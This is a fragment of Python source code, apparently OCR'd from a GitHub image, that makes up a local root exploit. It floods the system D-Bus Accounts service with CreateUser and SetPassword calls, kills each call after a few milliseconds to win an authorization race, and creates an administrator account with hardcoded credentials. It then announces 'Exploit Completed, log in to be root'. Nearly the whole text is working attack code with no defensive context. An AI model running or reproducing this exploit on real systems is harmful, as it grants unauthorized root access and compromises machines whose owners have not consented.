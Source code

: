 ```python
        process = subprocess.Popen(shlex.split(f'dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:{default_user} string:"creating user" int32:1'), stderr=subprocess.DEVNULL)
        try:
            rand = random.uniform(0.006, 0.009)
            process.wait(timeout=rand)
            process.kill()
        except subprocess.TimeoutExpired:
                process.kill()
        
        # validate user creation
        user = subprocess.run(shlex.split(f'id {default_user}'), stdout=subprocess.PIPE, stderr=subprocess.DEVNULL).stdout.decode('utf-8')
        if user.find("uid") != -1:
            inYellow("\n\t[*] User created:"); inMagenta(f"{default_user}")
            inYellow("\n\t[*] Time out at:"); inGreen(str(rand) + "\n")
            exist_user = True
            break
        if counter - 1 > 100:
            inRed("\n[-] Error creating user!"); sys.exit()

# assing password
def assignPasswd(default_user, default_password):
    time.sleep(2)
    inYellow("\n[+] Assigning password to user"); inMagenta(f"{default_user}\n")
    for i in range(200):
        # start and kill the process until the password is created
        # extract UID from user
        uid = "/org/freedesktop/Accounts/User" + str(pwd.getpwnam(f"{default_user}").pw_uid)
        # Create password in SHA-512 format
        hash_passwd = subprocess.run(shlex.split(f'openssl passwd -5 {default_password}'), stdout=subprocess.PIPE, stderr=subprocess.DEVNULL).stdout.decode('utf-8')
        passwd = f"string:{hash_passwd.rstrip()}"
        # Assign password to user
        process = subprocess.Popen(shlex.split(f'dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply {uid} org.freedesktop.Accounts.User.SetPassword {passwd} string:"assign user passsword"'), stderr=subprocess.DEVNULL)
        try:
            rand = random.uniform(0.006, 0.009)
            process.wait(timeout=rand)
            process.kill()
        except subprocess.TimeoutExpired:
            process.kill()
    time.sleep(0.5)
    inYellow("\n\t[*] Registered password")
    inYellow("\n\t[*] Time out at:"); inGreen(str(rand) + "\n")

# get credentials sudo
def getCredentials(default_user, default_passwd):
    time.sleep(2)
    inYellow("\n[+] Exploit Completed, log in to be root:\n\n")
    time.sleep(0.5)
    inYellow("\t[*] User :"); inGreen(f"{default_user}\n")
    inYellow("\t[*] Password:"); inGreen(f"{default_passwd}\n\n")

# process
def run():
    default_user = 'marss'
    default_password = 'marss###'
    createUser(default_user)
    assignPasswd(default_user, default_password)
    getCredentials(default_user, default_password)

```